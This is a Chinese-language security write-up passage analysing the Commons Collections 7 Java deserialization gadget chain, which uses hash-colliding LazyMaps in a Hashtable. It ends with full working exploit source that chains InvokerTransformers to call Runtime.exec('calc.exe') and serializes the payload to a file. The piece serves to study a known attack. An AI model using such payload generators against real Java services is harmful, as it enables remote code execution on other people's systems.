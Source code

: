 cc7的入口点加入了hashtable类，构造感觉也比较有意思，将两个hashcode值相同的lazymap放进同一个hashtable中，再反序列化恢复lazymap再次装进hashtable中时，因为两个lazpmap算出来hash值相同

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t019e1041f0aa61a9c9.png)

所以要进一步从第二个lazymap中取出第一个lazymap的key判断是否元素也是一样，所以取key当然又要走到lazymap.get，那么利用hash相同的特性在反序列化利用链jdk7u21中也用到了，绕过e.hash == hash来进一步触发动态代理，利用链的构造也非常精巧，因此理解函数内部的工作过程对于知识的融汇贯通也非常重要<br>`Commonscollections7衍生1`：根据TrAXFilter类的特点结合一层constantTransformer和一层invokeTransformer即可实例化payload类中的字节码

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01e77fe37b0e0985bf.png)

**CommonsCollections7.java(原版exp):**

```
package CommonsCollections7;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import java.io.*;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;
public class exp `{`
    public static void main(String[] args) throws IOException `{`
        //封装转换链
        Transformer[] trans = new Transformer[]`{`
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]`{`String.class,Class[].class`}`,
                        new Object[]`{`"getRuntime",new Class[0]`}`),
                new InvokerTransformer("invoke",
                        new Class[]`{`Object.class,Object[].class`}`,
                        new Object[]`{`null,null`}`
                        ),
                new InvokerTransformer("exec",
                        new Class[]`{`String.class`}`,
                        new Object[]`{`"calc.exe"`}`)
        `}`;
        //封装chained链
        ChainedTransformer chain = new ChainedTransformer(trans);
        //构造两个hash值相同的lazymap
        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();
        Map lazyMap1 = LazyMap.decorate(innerMap1,chain);
        lazyMap1.put("zZ",1);
        Map lazyMap2 = LazyMap.decorate(innerMap2, chain);
        lazyMap2.put("yy",1);
        Hashtable hashTable = new Hashtable();
        hashTable.put(lazyMap1,1);
        hashTable.put(lazyMap2,2);
        //移除生成exp过程中因两个lazymap的hash相同而放入lazymap2的键
        lazyMap2.remove("zZ");
        //序列化
        File file;
        file = new File(System.getProperty("user.dir")+"/javasec-ysoserial/src/main/resources/commonscollections7.ser");
        ObjectOutputStream obj = new ObjectOutputStream(new FileOutputStream(file));
        obj.writeObject(hashTable);
    `}`
`}`
```